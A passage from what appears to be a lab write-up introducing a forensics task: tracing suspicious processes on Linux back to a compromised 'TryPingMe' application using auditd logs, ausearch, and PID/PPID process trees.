originated from legitimate activity, a system process, or a potentially compromised application.

In this task, I will use Linux `auditd` logs and the `ausearch` command to trace suspicious processes back to their origin.

The investigation will focus on the **TryPingMe application** examined in the previous task and use process relationships to determine 
how suspicious commands were executed.

## What to Expect

This task will focus on using **process IDs (`PID`)** and **parent process IDs (`PPID`)** to reconstruct the sequence of processes 
involved in suspicious activity.

The investigation will include:

- Searching `auditd` logs for suspicious commands.
- Identifying the `PID` and `PPID` associated with a process.
- Using `ausearch` to trace a suspicious process back to its parent.
- Continuing up the process tree until reaching the originating application.
- Examining other child processes launched by the application.
- Identifying commands that may provide stronger evidence of a service breach.
- Using the process tree to understand how initial access may have led to command execution.

The goal is to move beyond identifying **what command was executed** and determine **why it was executed and what process caused it to run**.

</td>
</tr>
</table>

